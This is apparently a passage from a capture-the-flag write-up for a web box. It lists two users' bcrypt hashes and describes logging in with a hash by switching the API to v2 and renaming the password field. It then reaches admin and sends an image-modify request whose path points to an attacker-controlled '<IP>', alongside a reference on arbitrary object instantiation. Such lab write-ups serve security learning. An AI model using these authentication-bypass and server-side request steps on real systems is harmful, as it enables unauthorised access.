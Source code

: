 ~~~
greg : $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m

steve: $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa
~~~

Now as we said earlier we dont have to crack this password , we can simply login with this by changing 

![[Pasted image 20230705133007.png]]

~~~
/api/v2/auth/user
~~~
when i send the request , i found ,

![[Pasted image 20230705133116.png]]

It asks for the hash field is required,

So now i changed ```password --> hash```  also ```v1 --> v2```


Yes now i got this .. I can login now with the hash .!!

![[Pasted image 20230705133855.png]]

As we now login as steve or greg ..!!!

we are now admin , i dont find anything but ,

This allows us to login as admin and access to ``/admin`` and ``/api/v2/admin/image/modify``

![[Pasted image 20230705135405.png]]

~~~
{"path":"/var/www/html/intentions/storage/app/public/animals/ashlee-w-wv36v9TGNBw-unsplash.jpg",
"effect":"sepia"}
~~~

For further exploitation , i tried ..

Reference Link  for Exploitaiton:

~~~
https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
~~~

![[Pasted image 20230705140523.png]]

~~~
{"path":"http://<IP>/",
"effect":"sepia"}
~~~

![[can ping.jpg]]

I found this python script and with chatgpt i framed ..!!
